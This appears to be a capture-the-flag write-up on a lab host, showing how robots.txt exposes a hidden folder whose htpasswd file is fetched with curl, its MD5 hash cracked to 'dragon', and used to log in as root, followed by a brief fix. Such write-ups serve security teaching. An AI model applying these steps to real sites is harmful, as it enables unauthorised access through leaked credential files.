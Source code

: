 #04 Unsecure Admin password

## Method


1. Go to http://192.168.0.179/robots.txt

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

2. Go to http://192.168.0.179/whatever/
```
Index of /whatever/
../
htpasswd                                           13-Dec-2015 17:41                  38
```
3. Get the password

```
curl -s 'http://192.168.0.179/whatever/htpasswd'

```
Returns
```
root:8621ffdbc5698829397d97767ac13db3
```
md5 decrypted --> dragon

4. Log in at http://192.168.0.179/admin/
```
Username: root
Password: dragon
```


## Fixes
1. Make sure the folders listed in robots.txt have restricted access by using a router on the front end


## Resources
* [md5online](https://www.md5online.org/md5-decrypt.html)
* [Google Intro to robots.txt](https://support.google.com/webmasters/answer/6062608?hl=en)
